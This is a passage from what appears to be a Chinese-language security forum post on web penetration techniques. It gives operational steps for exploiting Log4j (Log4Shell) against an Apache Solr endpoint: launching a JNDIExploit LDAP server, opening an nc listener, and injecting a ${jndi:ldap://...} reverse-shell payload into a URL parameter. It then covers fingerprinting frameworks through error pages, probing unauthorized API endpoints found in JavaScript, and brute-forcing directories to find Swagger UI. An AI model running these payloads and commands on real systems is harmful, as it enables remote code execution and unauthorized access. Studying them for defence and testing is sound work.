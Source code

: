 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bc94332d9192251b4b251ff91b5c1e4d5e7cf6be.png)

利用方式：通过Log4j获取shell

\# 监听命令， -i 本机的ip

Java -jar JNDIExploit-1.2-SNAPSHOT.jar -l 8888 -p 6666 -i 192.168.242.4

开启nc监听
======

nc -lvvp 10010

设置payload并访问
============

\# poc原文

${jndi:ldap://192.168.242.4:8888/Basic/ReverseShell/192.168.242.4/10010}

\# 拼接poc在发现Log4j的参数点进行访问

[http://your-ip/solr/admin/cores?username=${jndi:ldap://192.168.242.4:8888/Basic/ReverseShell/192.168.242.4/10010}](http://your-ip/solr/admin/cores?username=$%7Bjndi:ldap://192.168.242.4:8888/Basic/ReverseShell/192.168.242.4/10010%7D)

Log4j2提供了一种lookups的机制，就是在进行日志记录时会将pattern中的$ { } 包裹的变量进行解析， 当 lookups的取值来源为JNDI 时， 就是日志信息中插入${jndi:xxx} 以键值对形式存在的变量时，Log4j2 就会进行jndi 查询，最终在jndi Lookup 处触发 远程代码执行。

其它类的框架通过访问不存在的xxx页面（ThinkPHP独有的报错页面，或.do/.action 结尾的大概率为Struts2框架，或ico图标的特殊），获取网站的报错信息，暴露出网站所采用的框架，之后进行针对性的poc攻击。

4. 网站接口
=======

源代码接口拼接
-------

在源码找下JS里面是否会有未授权的接口，构造数据进行访问。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-fa4aa676a5d71ae6aa482abee78b4583bc2aadd0.png)

直接拼接或与其他路径进行组合拼接访问。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-56777b244d651ac280baeac9b76bf439e4c8f67e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-8c749e338b42e849a4cc9c5f310a31bd9e112a9d.png)

通过不断的报错信息以进行请求方式和参数的构造以获取此接口的信息。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d6d0618b61033f10af93e105e0c4031cb26fc107.png)

Swagger
-------

通过目录暴破以得到Swagger-ui界面。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5440eccfe5b386c5feecb3ec399121b3d7b973d6.png)
